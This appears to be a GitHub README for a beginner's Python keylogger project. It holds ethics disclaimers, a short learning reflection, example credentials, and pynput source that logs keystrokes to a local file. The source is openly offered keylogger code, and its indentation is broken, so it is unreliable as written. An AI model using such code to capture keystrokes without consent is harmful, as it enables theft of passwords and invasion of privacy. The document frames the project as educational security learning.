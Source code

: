 This is a CyberSecurity Keylogger used to record keystrokes
___________________________________________________________
1 Legal Compliance: Ensure that the use of this keylogger complies with all applicable laws and regulations in your jurisdiction. Unauthorized monitoring of individuals without their consent may violate privacy laws and could result in legal consequences.

2 Responsible Use: Use this keylogger responsibly and ethically. It should only be used for legitimate purposes, such as cybersecurity testing, forensic analysis, or parental monitoring. Avoid using it for malicious activities or invading others' privacy.

3 Informed Consent: Obtain explicit consent from individuals before monitoring their keystrokes. Inform them about the purpose and extent of monitoring and give them the option to opt out if they are uncomfortable with being monitored.

4 Transparency: Be transparent about the presence of the keylogger and its capabilities. Clearly communicate to users if their activities are being monitored and provide them with access to the collected data upon request.

5 Data Security: Take measures to secure the collected data to prevent unauthorized access or disclosure. Encrypt the log files, restrict access to authorized personnel only, and securely delete the data once it is no longer needed.

6 Educational Purposes: Use the keylogger primarily for educational and research purposes to enhance cybersecurity awareness and improve defensive strategies against malicious attacks.

7 Continuous Improvement: Regularly review and update the keylogger code to address security vulnerabilities and improve its effectiveness while adhering to ethical standards.

8 Community Guidelines: Respect the guidelines and policies of the GitHub community. Avoid sharing or promoting malicious software that could harm users or violate community standards.

(Adhere by Ethical guidelines)

{Misuse will be punishable}

Through this project, I discovered how to create a simple keylogger in Python, learning about monitoring keyboard input and managing files. Handling exceptions taught me the necessity of ensuring program stability. The project shed light on ethical considerations in keylogger use, emphasizing responsible data handling. Keyloggers, while discreet, can aid in security testing, forensics, and parental monitoring. However, they must be used ethically to avoid misuse. Overall, this project provided a practical introduction to cybersecurity and software development, stressing ethical behavior online.
![Keylog ex 1](https://github.com/Kad3n13/Keylogger/assets/159424810/ceb53f7a-93e8-472d-9940-b857849246bb)

![keylogger ex 2](https://github.com/Kad3n13/Keylogger/assets/159424810/f9d0d623-b889-406d-ac56-945c0b885fcf)

Usernames and passwords used for (Example)
Usernames:

    ShadowHunter27
    CrimsonRose
    ElectricNinja

Passwords:

    P@ssw0rd123 (Strong)
    Swordfish87 (Medium)
    123456 (Weak)

![example 3](https://github.com/Kad3n13/Keylogger/assets/159424810/eeb98ddc-e564-4406-b911-f6a9a2f161fa)

Code!!!

    from pynput import keyboard

    def keypressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
                try:
                if hasattr(key, 'char'):  # Check if the key has a 'char' attribute
                char = key.char
                if char == ' ':  # Check if the character is a space
                    logkey.write('\n')  # Write a newline character if it's a space
                    else:
                    logkey.write(char)
                    else:
                    logkey.write(f'[{key}]')  # Write special keys as-is
                    except Exception as e:
                    print("Error getting char:", e)

                    if __name__ == '__main__':
                    listener = keyboard.Listener(on_press=keypressed)
                    listener.start()
                    input()

